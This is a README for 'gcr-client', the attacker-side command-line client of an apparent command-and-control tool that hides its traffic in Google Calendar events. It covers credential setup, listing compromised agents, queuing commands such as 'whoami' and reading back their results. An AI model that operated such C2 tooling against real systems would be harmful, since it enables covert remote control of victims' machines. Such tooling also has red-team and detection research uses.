


# GCR client 

I'd like to testing GCR with CLI only, and I made gcr-client.  
gcr-client is executed in attacker's PC.

## environment


## initiate

setup google service account and obtain credentials.json file from Google API Console, place in same directory of this script.  
set your calendar address at c2Calendar variable in gcr-client.py.

## how to use

1. listed current GCR agent

```dos
python gcr-client.py get_agents
```

2. get command result

You need to set agent ID with this command.

```dos
python gcr-client.py get_result --id {agent_id}
```

3. add new task of executed command in GCR agent

You need to set agent ID(--id) and command(--command) with this command.

```dos
python gcr-client.py get_result --id {agent_id} --command {command}
```

command example)

```dos
python gcr-client.py get_result --id 1234567890abcdef1234567890abcdef --command "whoami"
```

4. delete current all event(command and output is exist in each event) in google calendar

```dos
python gcr-client.py clear_task --id {agent_id}
```

## output example

